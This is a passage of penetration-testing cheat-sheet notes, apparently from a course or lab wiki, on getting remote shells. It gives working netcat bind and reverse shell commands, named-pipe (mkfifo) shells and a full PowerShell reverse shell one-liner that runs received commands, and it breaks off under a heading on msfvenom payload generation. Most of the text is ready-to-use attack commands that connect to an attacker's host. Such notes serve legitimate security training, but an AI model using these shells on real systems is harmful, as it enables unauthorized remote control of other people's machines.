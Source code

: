 * Some versions of netcat include -e option.
  * nc.exe Windows version included with Kali at /usr/share/windows-resources/binaries.
  * netcat-traditional version used in Kali.
* Allows execution of a process on connection.
* Create bind shell listener on target host for attack host to connect to.
  * Not included in most versions of netcat as widely seen to be very insecure.

nc -lvnp \<PORT> -e /bin/bash

* Send reverse shell to listener on attack host.

nc \<LOCAL-IP> \<PORT> -e /bin/bash

* Technique will work perfectly on Windows where static binaries are nearly always required.
* Create listener for bind shell on Linux.

mkfifo /tmp/f; nc -lvnp \<PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

The command first creates a[ named pipe](https://www.linuxjournal.com/article/2156) at /tmp/f. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

* Send a netcat reverse shell.

mkfifo /tmp/f; nc \<LOCAL-IP> \<PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

* Very common to require Powershell reverse shell when targeting modern Windows Server target hosts.
* Command is very convoluted but is extremely useful one-liner to keep on hand.

powershell -c "$client = New-Object System.Net.Sockets.TCPClient('\<ip>',\<port>);$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\[text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

* Replace \<IP> and \<port> with appropriate IP and choice of port.
* Can be copied into cmd.exe shell or another method of executing commands on a Windows server and executed resulting in a reverse shell:
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes in many different languages.

### **Msfvenom** <a href="#gofm6sc1z4wf" id="gofm6sc1z4wf"></a>

* Part of the Metasploit framework.
* Used to generate code for primarily reverse and bind shells.
* Can be used to generate payloads in various formats.
  * .exe, .aspx, .war, .py.

msfvenom -p \<PAYLOAD> \<OPTIONS>

* Generate Windows x64 Reverse Shell in an exe format.
